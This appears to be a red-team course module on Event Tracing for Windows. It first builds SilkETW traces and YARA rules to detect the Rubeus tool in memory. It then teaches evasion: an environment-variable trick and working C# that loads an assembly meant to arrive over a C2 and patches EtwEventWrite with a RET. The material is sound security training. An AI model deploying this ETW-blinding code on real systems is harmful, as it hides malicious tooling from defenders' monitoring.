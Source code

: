 Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications.  [SilkETW](https://github.com/mandiant/SilkETW) takes most of the pain out of consuming ETW events for a wide array of offensive and defensive purposes.  It's next largest strengths (in my view) are the formats it can output to (URL, Windows Event Log, JSON) and it's integration with [YARA](https://virustotal.github.io/yara/).

A popular use case for it is to provide .NET introspection - that is, to detect .NET assemblies in memory.  Let's explore ways to detect Rubeus in-memory...

  

When a .NET assembly is loaded, the Microsoft-Windows-DotNETRuntime provider produces an event called `AssemblyLoad`.  The data contained is the fully qualified name of the assembly.

```powershell
C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -f EventName -fv Loader/AssemblyLoad

███████╗██╗██╗   ██╗  ██╗███████╗████████╗██╗    ██╗
██╔════╝██║██║   ██║ ██╔╝██╔════╝╚══██╔══╝██║    ██║
███████╗██║██║   █████╔╝ █████╗     ██║   ██║ █╗ ██║
╚════██║██║██║   ██╔═██╗ ██╔══╝     ██║   ██║███╗██║
███████║██║█████╗██║  ██╗███████╗   ██║   ╚███╔███╔╝
╚══════╝╚═╝╚════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚══╝╚══╝
                  [v0.8 - Ruben Boonen => @FuzzySec]

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 6
```

  

Whilst SilkETW is running, execute `C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe`.  Review the JSON file and we see the following entries: `"FullyQualifiedAssemblyName":"Rubeus, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"`

Based on this we can create a YARA rule.  Save this to `C:\Users\Administrator\Desktop\YARA\rubeus.yara`.

```json
rule Rubeus_FullyQualifiedAssemblyName
{
    strings:
        $fqan = "Rubeus, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" ascii nocase wide
    condition:
        $fqan
}
```

  

Run SilkETW again, but provide the `-y` and `-yo` options for YARA.  Execute Rubeus again and the rule should trigger.

```powershell
C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -f EventName -fv Loader/AssemblyLoad -y C:\Users\Administrator\Desktop\YARA -yo Matches

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 8
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
```

  

The `Loader/ModuleLoad` event will show modules that have been loaded by an assembly.  Applications that have been compiled as Debug will attempt to load its associated PDB database.  In this case we'd see `"ManagedPdbBuildPath":"C:\\Tools\\Rubeus\\Rubeus\\obj\\Debug\\Rubeus.pdb"` in the JSON output.

We can add another YARA rule to the file to search for `"Rubeus.pdb"` and run again.

```json
rule Rubeus_ProgramDatabase
{
    strings:
        $pdb = "Rubeus.pdb" ascii nocase wide
    condition:
        $pdb
}
```

```powershell
C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -y C:\Users\Administrator\Desktop\YARA -yo Matches

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 596
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
     -> Yara match: Rubeus_ProgramDatabase
```

  

IL (intermediary language) stubs are dynamically generated by the CLR (common language runtime).  They handle the marshalling and invocation of native methods (ala P/Invoke) and can therefore be used to find assemblies using interop to access unmanaged code.  We can filter on these with `-fv ILStub/StubGenerated`.

From that, we'll see namespaces such as `Rubeus.Interop/TOKEN_INFORMATION_CLASS` and `Rubeus.Interop/LSA_STRING`.

```
rule Rubeus_Interop
{
    strings:
        $tic = "Rubeus.Interop/TOKEN_INFORMATION_CLASS" ascii nocase wide
        $lsa = "Rubeus.Interop/LSA_STRING" ascii nocase wide
    condition:
        any of them
}
```

```powershell
C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -y C:\Users\Administrator\Desktop\YARA -yo Matches

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 664
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
     -> Yara match: Rubeus_ProgramDatabase
     -> Yara match: Rubeus_Interop
```
  

An interesting note is that just running `Rubeus.exe` will not trigger the `Rubeus_Interop` rule.  Because the assembly did not execute any code that uses interop, the no IL stubs were generated that would trigger it. `Rubeus.exe klist` will trigger the rule.

---

If executing an exe on disk from a shell, the easiest (and most ridiculous) way to disable ETW events is to set the `COMPlus_ETWEnabled` environment variable to `0`.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/etw/complus.png)


To disable ETW in code, we can take a cue from the popular [in-memory patching technique](https://rastamouse.me/memory-patching-amsi-bypass/) to disable AMSI.  Advapi32.dll exports an API called **EventWrite** which forwards to **EtwEventWrite** in ntdll.dll.  We can patch instructions in memory at one of these locations to prevent the API writing events.

Consider the following boilerplate code:

```csharp
// pretend this is coming down a C2 as a byte[]
var bytes = File.ReadAllBytes(@"C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe");

// load the assembly
var assembly = Assembly.Load(bytes);

// invoke its entry point with arguments
assembly.EntryPoint.Invoke(null, new object[] { args });
```

  

Prior to loading the assembly, we'd like to locate one of those APIs (let's go with the lower-level EtwEventWrite) and write a `RET` at the beginning.

> A simple RET works fine for x64, but if on x86 you will need to adjust the stack first.

  

The high level steps are as follows:

-   Get the memory address of ntdll in the current process.
-   Get the memory address of EtwEventWrite from ntdll.
-   Make that region of memory writeable
-   Copy the patch
-   Restore the memory permissions

  

```csharp
// get location of ntdll.dll
var hModule = LoadLibrary("ntdll.dll");
Console.WriteLine("ndtll: 0x{0:X}", hModule.ToInt64());

// find EtwEventWrite
var hfunction = GetProcAddress(hModule, "EtwEventWrite");
Console.WriteLine("EtwEventWrite: 0x{0:X}", hfunction.ToInt64());

var patch = new byte[] { 0xC3 };

// mark as RW
VirtualProtect(hfunction, (UIntPtr)patch.Length, 0x04, out var oldProtect);
Console.WriteLine("Memory: 0x{0:X} -> 0x04", oldProtect);

// write a ret
Marshal.Copy(patch, 0, hfunction, patch.Length);

// restore memory
VirtualProtect(hfunction, (UIntPtr)patch.Length, oldProtect, out _);
Console.WriteLine("Memory: 0x04 -> 0x{0:X}", oldProtect);
```

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/etw/etweventwrite.png)

  

**LoadLibrary** and **GetProcAddress** are native APIs that you must P/Invoke.  If you want to give it a try with D/Invoke, take a look at `Generic.GetLibraryAddress()`.

Where Cobalt Strike does have an `amsi_disable` directive in Malleable C2, it has no equivalent like "etw_disable".  The most viable way to integrate this style of ETW patching with execute-assembly, is via a user defined reflective loader (discussed in a later module).